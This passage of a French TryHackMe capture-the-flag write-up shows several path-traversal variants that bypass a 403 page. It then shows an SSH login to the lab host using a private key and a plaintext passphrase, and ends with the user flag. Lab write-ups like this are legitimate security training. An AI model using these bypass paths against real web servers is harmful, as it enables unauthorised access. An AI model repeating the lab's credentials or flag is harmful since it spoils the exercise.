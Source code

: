 ```bash
Response Code: 200	Length: 2563	Path: /403.php/..//../
Response Code: 200	Length: 2563	Path: /403.php/../;/../
Response Code: 200	Length: 917	Path: /403.php/..;/
Response Code: 200	Length: 2563	Path: /403.php//../../

```

On contourne l'erreur 403 et on a une bonne page et une taille différente pour /..;/  

![page5](./Task1-05.png)

Sur cette nouvelle page on voit un nouveau nom qui est :  imsau

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i key imsau@enpass.thm 
Enter passphrase for key 'key': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-201-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

1 package can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


$ id
uid=1002(imsau) gid=1002(imsau) groups=1002(imsau)
```

Avec la clef, le nom imsau et le mot passe : cimihan_are_you_here?   
On obtient un shell.    

**What is the user flag?**

```bash
$ ls
user.txt
$ cat user.txt	
1c5ccb6ce6f3561e302e0e516c633da9
```
